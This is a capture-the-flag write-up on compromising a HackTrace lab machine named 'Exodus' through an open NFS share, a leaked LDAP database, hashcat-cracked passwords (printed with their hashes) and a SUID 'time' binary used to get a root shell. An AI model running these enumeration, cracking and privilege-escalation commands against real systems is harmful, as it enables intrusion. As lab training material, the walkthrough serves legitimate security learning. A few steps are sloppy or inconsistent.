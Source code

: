 ```yaml
---
title: "Exodus"
# date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - ctf
  - hacktrace-ranges
  - retired-mechines
---
```


### Affected Endpoint ###
Scope
```
    host/url:10.1.2.143
    Description: Access using hacktrace vpn
```
working time: 2 september - 3 september 2024

### Description ###
Background Story: Sometimes, forgetting will bring catastrophic events. As Friedrich Nietzsche said "To forget one's purpose is the commonest form of stupidity."

Vulnerability: Sensitive Data Exposure via LDAP.

### Impact ###
Impact File Inclusion & Misuse of Linux Capabilities is:
- Mount Directories via nfs.
- Information Disclosure.
- Privilege Escalation.


### Step To Reproduce ###
The steps in finding  vulnerability are as follows:
- Information Gathering.
- Enumeration.
- Exploit.
- Privilege escalation.
- Reporting.

### PoC ###
#### Information Gathering ####
Just as usual, we start off with the Nmap scan:
```
nmap -sCV -p- 10.1.2.143--min-rate=1000 -oN nmap -Pn 10.1.2.140
```
![alt text](/assets/images/hacktrace/exodus/image1.png)
![alt text](/assets/images/hacktrace/exodus/image2.png)
There are six ports open and one close: 80(http), 111(rpcbind), 389 (ldap), 443 (https close), 2049 (nfs_acl), 9090(ssl/zeus-admin?), 10000(http), 20048 (mountd). try enumerating port 80 using dirsearch
```
dirsearch -u http://10.1.2.143 
```
![alt text](/assets/images/hacktrace/exodus/image3.png)
After scanning, it turns out that there is nothing interesting, let's take a look at the web view. 
![alt text](/assets/images/hacktrace/exodus/image4.png)
The web interface is also nothing interesting, which means the path to the exploit is not on port 80. Let's go to port 111, there is something interesting about the nfs service, let's try to enumerate on port 111 with the payload:
```
showmount -e 10.1.2.143 
```
![alt text](/assets/images/hacktrace/exodus/image5.png)
Now there is a removeonly directory that we can mount. Next exploit.
```
sudo mount -t nfs -o rw 10.1.2.143:/removeonly mount
```
If so, move to the mount directory, then see if there is a mount”. Here you can see that there are files that have not been extracted. 
![alt text](/assets/images/hacktrace/exodus/image6.png)
Then extract using ``` tar -xvjf db2bak.tar.bz2 -C /tmp ```, If it is successful, it will appear as shown below.
![alt text](/assets/images/hacktrace/exodus/image7.png)
Then move to the /tmp directory and see if there is a localhost-2023_03_23_13_55_58 folder, then succeed and move to that directory, then explore what is in that directory, I found an interesting file, id2entry.db.
![alt text](/assets/images/hacktrace/exodus/image8.png)
In the id2entry.db file there are several usernames and passwords that are encrypted, this is a wala step to dive deeper, I tried to decrypt the passwords one by one using base64 and then using hashcat for {SSHA512}.

Use with hashcat : ``` hashcat -m 1711 pass.hash /usr/share/wordlists/rockyou.txt ```
And this is the result after decrypting everything:
```
1.	elise : {SSHA512}apWdzsoM4gqKK1FtkxPCZOGmt5+SU9gUqPq6dQRWJpzkodm4q17qYg1Dk5oQ+FI5EidnEKOE2T0VOoAtGTntfTaLfY2jXAa0:  1qazxsw23edc 
```
```
2.	putra   : {SSHA512}00Ibr4T0kxsHIqD8hum+Lu6bI8GKTWotYO/kJjg0pH/cHde1EjIJWDUo49LVDQ7tghqIeweEWNbtSEffmgu2iXuvQO8VtllD: jellybean
```
```
3.	ashley  : {SSHA512}fhYowoEu3kInHd4oX8IMBvB5Sjo9u0w1HZQTocKLCgGgvJ5Y4GJHaXcWKOQZQ25oWfKNE2OF4KDxjHuhYTlYAttTuhO3mQEI:  mynameisashley 
```
```
4.	budi    : {SSHA512}othOZFDBcLowBq9BAU6N7oTJX57prRiHWAA6K9P93XEV7HxkX9zd9AWdGGa5hijudbnBs+HUtPV3oPXcEAN6l3rNN3z8CSeD: fuck_inside
```
```
5.	madison : {SSHA512}uh9h7Jcbq1yeCy6KDHv+HSS13kIAlLKRKycNoKWLonU3bnDr2SIgfaTiZfNx7LqNi6jcPpJwHzWIRu+lobHnVsLUOgmoY/37
```
```
6.	joni    : {PBKDF2-SHA512}10000$KPOgo4hjCAWr2CFnEocJW/RrbNbase64: invalid input
```
There are 6 users, and only 4 can decrypt their passwords, which is enough for credential entry.
Continue to port 9090 with the url: https://10.1.2.143:9090. And this is how the web looks like. 
![alt text](/assets/images/hacktrace/exodus/image9.png)
Try entering the user and pass that we have, here I tried son: jellybean, and can log in.
![alt text](/assets/images/hacktrace/exodus/image10.png)
I tried to learn what we can do on this web. Now we can access the terminal on this web. 
![alt text](/assets/images/hacktrace/exodus/image11.png)
And fortunately the user.txt file is in putra, now we try to increase our access rights so that we can become root, try to find out the user whose uid is in putra with /etc/passwd 
![alt text](/assets/images/hacktrace/exodus/image12.png)
Found, it turns out that Budi has uid = 1000, we try to access Budi with the cred we have, And can be a favor, The next step is to increase our access rights to root.
![alt text](/assets/images/hacktrace/exodus/image13.png)

### Privilage Escalation ###

1.	Try to see the hidden files in the budi directory : ```ls -la /home/budi```
2.	There are some hidden files. 
![alt text](/assets/images/hacktrace/exodus/image14.png)
3.	Can see .bash_hsitory file.
![alt text](/assets/images/hacktrace/exodus/image15.png)
This seems quite strange, but maybe it can lead us to root access, so what's the harm in trying.Pindah ke directory bin: cd /usr/bin
4.	Then ./time /bin/sh -p, and boom can get privilege access to root
![alt text](/assets/images/hacktrace/exodus/image15.png)
5.  Read Flag user and root.txt